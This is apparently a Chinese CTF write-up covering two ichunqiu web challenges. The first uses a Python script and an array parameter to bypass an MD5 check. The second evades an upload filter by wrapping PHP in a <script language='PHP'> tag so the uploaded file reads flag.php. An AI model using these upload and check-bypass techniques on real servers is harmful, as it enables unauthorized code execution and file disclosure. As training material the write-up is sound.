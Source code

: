 # 爱春秋平台CTF练习writeup

## 0x001 爆破-3

> 分值：10分 类型：MiscWeb 题目名称：爆破-3  
题目内容：
这个真的是爆破。

打开网页发现是源码审计，观察发现如果参数正确会将下一次要输入的参数输出在网页顶部，通过传**数组**可以绕过MD5检测：

```php
 <?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

Python 代码如下：

```Python
import requests

s = requests.session()

r = s.get("http://fd864919a2194028bc0540857bbe2303d62ae11fe4f94e27.game.ichunqiu.com/?value[]=ea");

for i in range(9):
    url = "http://fd864919a2194028bc0540857bbe2303d62ae11fe4f94e27.game.ichunqiu.com/?value[]=" + r.text[0:2]
    r = s.get(url)
    print(r.text[0:200])
```

在最后一次输出的内容里即包含flag

> p.s. 看了别人的 writeup， 使用的是 `r.content[0:2]`, 自己测试无效，最后发现还是 Python 版本的锅，在Python3 中 `r.content` 是 byte 类型，不能直接拼接字符串，而且转化成字符串后会有 `b'xxx'`的前缀，因此使用了 `r.text[0:2]`

## 0x002 Upload

> 分值：50分 类型：Web 题目名称：Upload  
题目内容：想怎么传就怎么传，就是这么任性。  
tips:flag在flag.php中 

**重点**：

```html
<script language="php">
    strtolower($str);
</script>
<!-- 绕过过滤的一种方法 -->

```

上传题，可以上传任意类型的文件，并且打开，于是尝试上传一段PHP代码

首先尝试：

```php
<?php
show_source('../flag.php');
```

返回内容为：

    show_source('../flag.'); 

发现 `<?php` 和 `php` 字样被过滤掉了，尝试使用大写 `PHP` 发现没有被过滤，但是 `<?` 还是被过滤了，查找资料后了解到一种方法：

```php
<script language='PHP'>
show_source('../flag.'.strtolower("PHP"));
</script>
```

上传成功获得flag
